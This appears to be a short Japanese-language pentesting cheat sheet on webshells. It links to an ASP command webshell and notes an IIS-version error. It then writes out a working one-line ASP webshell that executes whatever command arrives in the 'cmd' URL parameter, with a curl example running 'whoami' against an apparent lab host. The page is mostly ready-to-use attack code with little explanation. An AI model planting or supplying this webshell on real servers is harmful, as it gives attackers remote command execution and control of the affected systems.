


# webshell

[toc]

## ASP

### 画面あり

* https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp* IISのバージョンによっては、以下のエラーになる。

そしたら以下を使う

### 画面なし

```asp
# asp.simple.revs

<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

UIはないので直接ブラウザのURL叩くか、curlする

```
curl http://10.129.33.253/upload/cmd.asp?cmd=whoami
```

